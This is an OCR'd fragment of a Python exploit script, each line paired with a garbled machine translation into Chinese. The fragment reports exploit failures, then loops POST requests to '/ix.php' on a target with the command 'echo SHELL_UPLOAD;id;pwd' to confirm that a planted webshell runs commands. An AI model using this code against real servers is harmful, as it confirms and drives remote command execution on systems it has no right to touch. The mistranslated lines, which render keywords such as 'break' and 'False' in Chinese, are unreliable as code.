 print("Error exploiting target")  
print（“利用目标时出错”）

print(r.status\_code)  
print（r.status\_code）

print(r.text)  
print（r.text）

return False  
返回False

print(f"Status Code: {r.status\_code}, Response: {r.json()}")  
print（f“状态代码：{r.status\_code}，响应：{r.json（）}”）

print("Verifying webshell...")  
print（“打印webshell.“）

tot = 30  
总计= 30

c = 0

up = False  
上=假

while c < tot:  
当c < tot时：

b = requests.post(  
B = requests.post（

self.target + "/ix.php",  
self.target“/ix.php”，

data={"g": "echo SHELL\_UPLOAD;id;pwd"},  
data={“g”：“echo SHELL\_UPLOAD;id;pwd”}，

verify=False,  
verify=False，

timeout=1,  
timeout=1，

)

if b.status\_code == 200 and b.text.find("SHELL\_UPLOAD") != \-1:  
如果B.status\_code == 200且B.text.find（“SHELL\_UPLOAD”）！= -1：

sys.stdout.write(f"\\nShell confirmed in {c} seconds.\\n")  
sys.stdout.write（f”\\nShell已在{c}秒内确认。\\ n”）

sys.stdout.flush()  
sys.stdout.flush（）

up = True  
上=真

break  
打破
